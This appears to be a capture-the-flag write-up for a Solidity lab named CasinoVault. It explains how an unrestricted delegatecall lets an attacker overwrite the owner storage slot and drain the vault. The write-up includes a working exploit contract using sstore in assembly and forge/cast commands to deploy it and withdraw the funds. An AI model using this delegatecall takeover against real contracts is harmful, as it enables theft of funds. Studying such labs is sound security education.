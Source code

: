 The vault of this casino can only be opened by the owner. What we are trying to do here is take everything from the owner, but how? &nbsp;    
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
It seems the heist was successful when we managed to empty the vault. A lot of work to be done here, it seems, huh? Let's look at what we're dealing with *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transfered, ) = payable(owner).call{value: address(this).balance}("");
        require(transfered, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can verifyIdentify by providing an *address* and a *bytes memory data*, they use delegatecall there, delegate calls are usually used like a "borrowed function". You execute the function in order to modify the state of the caller. In this case, if we parse and address and execute the data there, it will execute the data and modify the state of the *Casino Vault* itself. Unlinke Silent-Dealer where there is a function to change owner here the option doesn't present. So how can we become the owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is an operation called *sstore(location, value)*. We can use this to overwrite the storage memory, let's see where the *owner* resides, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
Based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address; this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage, we can use &nbsp;  
&nbsp;  

```solidity
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation, I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the vault. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it, and at last we're going to withdraw all the money stored there. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!